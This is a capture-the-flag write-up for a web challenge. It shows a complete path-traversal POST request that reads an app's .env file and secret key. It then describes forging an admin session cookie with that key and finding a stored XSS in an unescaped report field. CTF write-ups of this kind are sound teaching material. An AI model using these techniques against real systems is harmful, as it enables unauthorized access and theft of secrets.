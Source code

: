 # Intro to web (<font color=green> Introduction </font>)


## Description

5 vulns, 5 stages - can you find them all?

## Tools Used

- 

## Skills Learned

- 

## Steps Taken
### Flag 1
1. From `FLAG_STAGE_1 = os.environ.get("FLAG_STAGE_1")`, to get Flag 1 we have to read .env file.
2. There is a `read_file(path)` function that reads file from path that starts with ./img and a POST request (`/note/new`) that call `read_file(path)` to read and display img file.
3. So we can send a POST request and change the path to `./img/../.env` and the env will be displayed on the site.
    ```
    fetch("https://redview-of-thunderous-wealth.gpn23.ctf.kitctf.de/note/new", {
    "headers": {
        "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "accept-language": "en-US,en;q=0.9",
        "cache-control": "max-age=0",
        "content-type": "application/x-www-form-urlencoded",
        "sec-ch-ua": "\"Google Chrome\";v=\"137\", \"Chromium\";v=\"137\", \"Not/A)Brand\";v=\"24\"",
        "sec-ch-ua-mobile": "?0",
        "sec-ch-ua-platform": "\"Windows\"",
        "sec-fetch-dest": "document",
        "sec-fetch-mode": "navigate",
        "sec-fetch-site": "same-origin",
        "sec-fetch-user": "?1",
        "upgrade-insecure-requests": "1"
    },
    "referrer": "https://redview-of-thunderous-wealth.gpn23.ctf.kitctf.de/note/new",
    "referrerPolicy": "strict-origin-when-cross-origin",
    "body": "title=1&content=111&image_path=.img/../.env",
    "method": "POST",
    "mode": "cors",
    "credentials": "include"
    });
    ```
4. The .env will be displayed as a broken image on the site but we can view it in inspect elements `src="data:image/png;base64, <.env>`. The .env will be base64 encoded so just decode it to get flag 1 and FLASK_APP_SECRET_KEY.
### Flag 2
1. From `app.mjs`, flag 2 is in a note and to access this note we have to gain moderator.
2. To gain moderator, we just have to set user role as `admin` seen from the `is_mod()` function. Since we have the flask key, we can forge a cookie with `admin` as user role using this [script](forge.py).
3. Replace session cookie with the forged cookie and go to `/moderator` and the flag will be in a note titled `My juicy note`
### Flag 3
1. Examining the `report_note.html`, we found a vulnability at `<p>Report reason: {{ note.reason|safe }}</p>`. This allows us to do XSS by inputting a script into report.
2. However we are unable to get the cookie as document.cookie came out empty. We also tried to capture any post request using `ngrok` but got nothing.
3. Unfortunately we were unable to solve this and moved on to other challenges. :(